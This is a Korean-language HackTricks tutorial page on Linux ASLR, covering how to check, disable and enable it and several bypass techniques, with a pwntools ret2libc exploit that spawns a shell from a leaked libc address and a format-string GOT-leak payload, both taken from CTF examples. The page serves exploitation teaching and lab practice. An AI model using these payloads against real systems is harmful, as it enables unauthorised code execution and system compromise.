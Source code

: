 # ASLR

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 기여하세요.

</details>

## 기본 정보

**Address Space Layout Randomization (ASLR)**은 운영 체제에서 사용되는 보안 기술로, 시스템 및 응용 프로그램 프로세스에서 사용하는 **메모리 주소를 무작위로 변경**합니다. 이렇게 함으로써 특정 프로세스 및 데이터의 위치를 예측하는 것이 상당히 어려워지며, 스택, 힙, 라이브러리 등 특정 유형의 공격을 완화하는 데 도움이 됩니다.

### **ASLR 상태 확인**

Linux 시스템에서 ASLR 상태를 **확인**하려면 `/proc/sys/kernel/randomize_va_space` 파일에서 값을 읽을 수 있습니다. 이 파일에 저장된 값은 적용되는 ASLR 유형을 결정합니다:

* **0**: 무작위화 없음. 모든 것이 정적입니다.
* **1**: 보수적인 무작위화. 공유 라이브러리, 스택, mmap(), VDSO 페이지가 무작위화됩니다.
* **2**: 완전한 무작위화. 보수적인 무작위화에 추가로 `brk()`를 통해 관리되는 메모리가 무작위화됩니다.

다음 명령을 사용하여 ASLR 상태를 확인할 수 있습니다:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLR 비활성화**

ASLR를 **비활성화**하려면 `/proc/sys/kernel/randomize_va_space`의 값을 **0**으로 설정합니다. ASLR를 비활성화하는 것은 일반적으로 테스트 또는 디버깅 시나리오 이외에는 권장되지 않습니다. 다음은 비활성화하는 방법입니다:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
ASLR를 실행 중에 비활성화할 수도 있습니다:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLR 활성화**

ASLR를 **활성화**하려면 `/proc/sys/kernel/randomize_va_space` 파일에 **2** 값을 작성할 수 있습니다. 일반적으로 루트 권한이 필요합니다. 전체 무작위화를 활성화하려면 다음 명령을 사용할 수 있습니다:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **부팅 간 지속성**

`echo` 명령어로 한 변경 사항은 일시적이며 재부팅시 초기화됩니다. 변경 사항을 지속적으로 유지하려면 `/etc/sysctl.conf` 파일을 편집하여 다음 줄을 추가하거나 수정해야 합니다:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
`/etc/sysctl.conf` 파일을 편집한 후 다음을 사용하여 변경 사항을 적용하십시오:
```bash
sudo sysctl -p
```
이렇게 하면 ASLR 설정이 다시 부팅되어도 유지됩니다.

## **우회 방법**

### 32비트 무차별 대입

PaX는 프로세스 주소 공간을 **3 그룹**으로 나눕니다:

* **코드와 데이터** (초기화된 및 초기화되지 않은): `.text`, `.data`, 및 `.bss` —> `delta_exec` 변수에서 **16비트**의 엔트로피. 이 변수는 각 프로세스마다 무작위로 초기화되며 초기 주소에 추가됩니다.
* `mmap()`에 의해 할당된 **메모리** 및 **공유 라이브러리** —> **16비트**, `delta_mmap`이라고 함.
* **스택** —> **24비트**, `delta_stack`이라고 함. 그러나 실제로 **11비트**를 사용합니다 (10번째부터 20번째 바이트까지 포함), **16바이트**에 정렬됨 —> 이로 인해 **524,288개의 가능한 실제 스택 주소**가 생성됩니다.

이전 데이터는 32비트 시스템을 위한 것이며 최종 엔트로피 감소로 인해 공격이 성공적으로 완료될 때까지 실행을 여러 번 시도하여 ASLR을 우회할 수 있습니다.

#### 무차별 대입 아이디어:

* **쉘코드 앞에 큰 NOP 슬레드를 호스팅할만큼 충분한 오버플로우가 있다면**, 스택 주소를 무차별 대입하여 흐름이 **NOP 슬레드의 일부를 건너뛰도록** 할 수 있습니다.
* 오버플로우가 그리 크지 않고 공격을 로컬에서 실행할 수 있는 경우, **환경 변수에 NOP 슬레드와 쉘코드를 추가**할 수 있습니다.
* 공격이 로컬인 경우, libc의 베이스 주소를 무차별 대입해 볼 수 있습니다 (32비트 시스템에 유용함):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 원격 서버를 공격할 때 `libc` 함수 `usleep`의 주소를 **브루트 포스**하여 10을 인자로 전달할 수 있습니다. 서버가 응답하는 데 10초 더 걸린다면 이 함수의 주소를 찾은 것입니다.

{% hint style="success" %}
64비트 시스템에서 엔트로피가 훨씬 높아 이것은 불가능합니다.
{% endhint %}

### 누출이 있는 경우

* **누출이 주어지는 도전**

누출이 주어진 경우 (쉬운 CTF 도전), 해당 누출로부터 오프셋을 계산할 수 있습니다 (예를 들어 공격 중인 시스템에서 사용되는 정확한 libc 버전을 알고 있다고 가정). 이 예제 exploit은 [**여기의 예제**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak)에서 추출되었습니다 (자세한 내용은 해당 페이지를 확인하세요):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

버퍼 오버플로우를 악용하여 **ret2plt**를 이용하여 libc에서 함수의 주소를 유출할 수 있습니다. 확인하세요:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

ret2plt와 마찬가지로 포맷 문자열 취약점을 통해 임의의 읽기가 가능하면 **GOT**에서 **libc 함수**의 주소를 유출할 수 있습니다. 다음은 [**여기에서의 예제**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)입니다:
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
### Ret2ret

스택 내부 주소를 악용하여 ASLR을 우회해보세요:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
